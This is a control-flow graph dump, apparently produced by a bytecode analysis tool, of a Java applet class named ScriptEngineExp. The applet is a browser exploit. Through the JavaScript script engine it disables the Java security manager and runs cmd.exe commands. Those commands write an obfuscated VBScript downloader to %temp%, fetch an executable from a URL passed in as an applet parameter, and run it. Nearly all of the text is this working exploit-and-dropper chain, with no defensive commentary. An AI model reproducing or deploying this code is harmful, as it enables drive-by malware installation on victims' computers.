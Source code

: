 digraph "" {
    "r0 := @this: ScriptEngineExp"
    "load.r r0"
    "r0 := @this: ScriptEngineExp"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r11"
    "newarray"->"store.r $r11";
    "load.r $r11"
    "store.r $r11"->"load.r $r11";
    "push 0"
    "load.r $r11"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <ScriptEngineExp: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <ScriptEngineExp: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <ScriptEngineExp: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "new java.lang.StringBuilder"
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\happy.vbs\\\" \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\happy.vbs\\\" \"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\happy.vbs\\\" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" \\\"%temp%\\\\temp.exe\\\"&& \\\"%temp%\\\\temp.exe\\\"\');\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \\\"%temp%\\\\temp.exe\\\"&& \\\"%temp%\\\\temp.exe\\\"\');\"";
    "push \" \\\"%temp%\\\\temp.exe\\\"&& \\\"%temp%\\\\temp.exe\\\"\');\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"return \\\"exploit!\\\";};\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"return \\\"exploit!\\\";};\"";
    "push \"return \\\"exploit!\\\";};\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"error.message = this;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"error.message = this;\"";
    "push \"error.message = this;\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "push \"error\""
    "pop"->"push \"error\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "push \"error\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r11";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r11"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <ScriptEngineExp: javax.swing.JList list>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <ScriptEngineExp: javax.swing.JList list>";
    "fieldput <ScriptEngineExp: javax.swing.JList list>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <ScriptEngineExp: javax.swing.JList list>"
    "load.r r0"->"fieldget <ScriptEngineExp: javax.swing.JList list>";
    "virtualinvoke <ScriptEngineExp: java.awt.Component add(java.awt.Component)>"
    "fieldget <ScriptEngineExp: javax.swing.JList list>"->"virtualinvoke <ScriptEngineExp: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <ScriptEngineExp: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <ScriptEngineExp: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
